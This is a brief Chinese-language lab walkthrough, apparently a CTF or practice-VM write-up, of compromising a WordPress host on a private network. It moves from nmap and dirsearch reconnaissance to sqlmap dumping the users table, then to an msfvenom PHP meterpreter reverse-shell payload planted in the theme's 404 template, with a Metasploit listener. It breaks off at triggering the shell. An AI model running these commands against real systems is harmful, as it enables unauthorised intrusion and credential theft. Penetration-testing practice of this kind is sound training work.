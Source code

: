     ```

* 服务发现

    ```php

    nmap -sV -A 192.168.43.89

    发现开放三个端口，80、443、8080

    其中80端口只有一张动图，访问443

    点开连接访问了wordpress

    ```

* 漏洞发现

    ```php

    dirsearch -u http://192.168.43.89 -e * -t 100
    
    如果是扫的443端口就扫不到login.php和phpmyadmin

    wordpress/wp-login.php

    wordpress/
    ```

* 漏洞利用

    SQL注入

    ```php

    burp抓包保存本地文件1

    sqlmap -r 1 --dbms mysql -D wordpress8080 -T users --dump

    #admin SuperSecretPassword

    ```

    登陆后台

    ```php

    Appearance->Editor->404page

    本地生成木马

    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.43.28 LPORT=9594 > shell.php

    复制木马内容到404template里

    msf起一个监听

    use multi/handler
    set payload php/meterpreter/reverse_tcp
    set lhost 192.168.43.28
    set lport 9594
    run

    访问wordpress主题下的这个404页面

